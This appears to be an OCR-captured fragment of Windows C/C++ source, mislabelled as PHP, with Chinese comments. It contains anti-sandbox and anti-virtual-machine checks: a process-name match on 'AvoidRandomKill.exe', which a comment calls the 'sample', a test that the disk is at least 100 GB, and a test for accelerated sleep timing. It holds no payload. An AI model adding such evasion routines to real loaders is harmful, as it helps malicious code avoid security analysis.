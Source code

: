 ```php
    //if (!wcsstr(currentProcessPath, L"C:\\\\USERS\\\\PUBLIC\\\\")) return false;  
    if (!strstr(currentProcessPath, "AvoidRandomKill.exe"))//这里填写样本的名字  
    {  
        return false;  
    }  
    else  
        return true;  
}  
​  
​  
/\*  
    反虚拟机、沙箱  
    硬盘大小大于100  
\*/  
bool checkHDD() {  
​  
    HANDLE hDevice \= CreateFileW(L"\\\\\\\\.\\\\PhysicalDrive0", 0, FILE\_SHARE\_READ | FILE\_SHARE\_WRITE, NULL, OPEN\_EXISTING, 0, NULL);  
    DISK\_GEOMETRY pDiskGeometry;  
    DWORD bytesReturned;  
    DeviceIoControl(hDevice, IOCTL\_DISK\_GET\_DRIVE\_GEOMETRY, NULL, 0, &pDiskGeometry, sizeof(pDiskGeometry), &bytesReturned, (LPOVERLAPPED)NULL);  
    DWORD diskSizeGB;  
    diskSizeGB \= pDiskGeometry.Cylinders.QuadPart \* (ULONG)pDiskGeometry.TracksPerCylinder \* (ULONG)pDiskGeometry.SectorsPerTrack \* (ULONG)pDiskGeometry.BytesPerSector / 1024 / 1024 / 1024;  
    if (diskSizeGB < 100)  
        return false;  
    else  
        return true;  
}  
​  
/\*  
    反沙箱、虚拟机  
    检测时间是否加速，来绕过沙箱  
\*/  
BOOL accelerated\_sleep()  
{  
    DWORD dwStart \= 0, dwEnd \= 0, dwDiff \= 0;  
    DWORD dwMillisecondsToSleep \= 30 \* 1000;  
​  
    dwStart \= GetTickCount();  
    MySleep mySlp \= (MySleep)GetProcAddress(GetModuleHandle("Kernel32.dll"), "Sleep");  
    mySlp(dwMillisecondsToSleep);  
    dwEnd \= GetTickCount();  
​  
    dwDiff \= dwEnd \- dwStart;  
    if (dwDiff \> dwMillisecondsToSleep \- 1000) // substracted 1s just to be sure  
        return false;  
    else  
        return true;  
}  
```
